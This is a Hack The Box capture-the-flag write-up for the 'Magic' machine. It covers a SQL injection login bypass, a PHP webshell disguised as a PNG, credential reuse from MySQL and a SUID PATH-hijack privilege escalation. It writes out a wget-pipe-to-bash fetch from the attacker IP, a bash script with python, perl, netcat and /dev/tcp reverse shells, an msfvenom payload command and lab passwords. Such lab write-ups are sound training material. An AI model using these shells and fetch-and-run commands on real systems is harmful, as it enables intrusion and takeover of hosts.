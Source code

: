 ```yaml
---
layout: single
title: Magic - Hack The Box
excerpt: "Magic starts with a classic PHP insecure upload vulnerability that let us place a webshell on the target host and then we exploit a subtle webserver misconfiguration to execute the webshell (even though the file name doesn't end with a .php extension). Once we land a shell, we escalate to another user with credentials found in MySQL and priv esc to root by exploiting a path hijack vulnerability in a SUID binary."
date: 2022-08-22
classes: wide
header:
  teaser: /assets/images/htb-writeup-magic/magic_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - sqli
  - upload
  - php
  - mysql
  - port forward
  - suid
  - path hijack
---
```


![](/assets/images/htb-writeup-magic/magic_logo.png)

Magic starts with a classic PHP insecure upload vulnerability that let us place a webshell on the target host and then we exploit a subtle webserver misconfiguration to execute the webshell (even though the file name doesn't end with a .php extension). Once we land a shell, we escalate to another user with credentials found in MySQL and priv esc to root by exploiting a path hijack vulnerability in a SUID binary.

## Summary

- Bypass the login page with a simple SQL injection
- Upload a PHP webshell after bypassing the file type and extension restriction
- Find DB credentials, then find the password for user theseus in the MySQL database
- Privesc by hijacking the PATH of a SUID binary

## Portscan

![](/assets/images/htb-writeup-magic/nmap.png)

## Website and initial shell

The website is just an image gallery with a link to upload new images at the bottom.

![](/assets/images/htb-writeup-magic/website1.png)

The upload page is protected by a login form for which we don't have valid credentials.

![](/assets/images/htb-writeup-magic/login.png)

We can try some default credentials like `admin / admin` on the login page but they don't work. Next we'll try a very simple SQL injection like `' or '1'='1` in the password field. This makes the password condition return True and we're able to pass the authentication check.

![](/assets/images/htb-writeup-magic/upload.png)

The application filters out what we can upload so we're not able to upload a PHP webshell with the .php extension.

![](/assets/images/htb-writeup-magic/upload1.png)

The application also checks the content of the file so even if we rename the file to a valid image extension it fails the upload check.

![](/assets/images/htb-writeup-magic/upload3.png)

By using a valid PNG image and inserting PHP code in the middle of the file we can pass the magic bytes check and the application will think it's a valid image.

![](/assets/images/htb-writeup-magic/upload4.png)

To bypass the extension check, we can append `.png` and it will still execute the file as PHP code when we send the GET request to `/images/uploads/snow.php.png`. This happens because of a subtle misconfiguration in the htaccess configuration file. The regular expression only checks if the `.php` string is present in the filename, not that the file name actually ends with `.php`.

```
<FilesMatch ".+\.ph(p([3457s]|\-s)?|t|tml)">
SetHandler application/x-httpd-php
</FilesMatch>
<Files ~ "\.(sh|sql)">
   order deny,allow
   deny from all
```

Now that we have uploaded the webshell we have remote code execution:

![](/assets/images/htb-writeup-magic/rce.png)

With the PHP webshell, I can fetch a bash script from my box and get a reverse shell through Perl:

`http://magic.htb/images/uploads/snow.php.png?c=wget%20-O%20-%20http://10.10.14.35/shell.sh%20|%20bash`

The bash script will try various methods to get a reverse shell back to us:

```bash
if command -v python > /dev/null 2>&1; then
        python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.14.35",443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
        exit;
fi

if command -v perl > /dev/null 2>&1; then
        perl -e 'use Socket;$i="10.10.14.35";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
        exit;
fi

if command -v nc > /dev/null 2>&1; then
        rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.35 443 >/tmp/f
        exit;
fi

if command -v sh > /dev/null 2>&1; then
        /bin/sh -i >& /dev/tcp/10.10.14.35/443 0>&1
        exit;
fi
```

![](/assets/images/htb-writeup-magic/rce2.png)

## Privesc to user theseus

In the web application directory `/var/www/Magic`, we find a PHP script `db.php5` that contains the database configuration file for the web application with the mysql username, password and database name.

```php
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
```

The mysql CLI client isn't installed on the machine so we'll have to do port forwarding to reach port 3306 listening on localhost. There's many ways to do this, here I'll use a meterpreter shell to port forward 3306.

`msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o met LHOST=10.10.14.35 LPORT=5555`

![](/assets/images/htb-writeup-magic/met1.png)

![](/assets/images/htb-writeup-magic/met2.png)

We can now log in to MySQL and we find another password in the **login** table.

![](/assets/images/htb-writeup-magic/mysql.png)

We can use the `Th3s3usW4sK1ng` to su to user `theseus`:

![](/assets/images/htb-writeup-magic/user.png)

## Privesc to root

Looking at SUID files, `/bin/sysinfo` stands out because it's not a standard Linux binary.

![](/assets/images/htb-writeup-magic/sysinfo.png)

The program just seems to be running a bunch of standard Linux programs like `free`.

![](/assets/images/htb-writeup-magic/sysinfo2.png)

By using `ltrace`, we can confirm this and see that the program uses the `popen` function to execute programs:

![](/assets/images/htb-writeup-magic/sysinfo3.png)

The program is vulnerable because we control the PATH and the program doesn't use the absolute path to execute the programs so we can execute anything we want as root. To get root I'll just create a script that sets the SUID bit on  `/bin/bash`, name it `free` and call `/bin/sysinfo` after setting the path to my current directory so it doesn't execute the real `free` program but my own script.

![](/assets/images/htb-writeup-magic/root.png)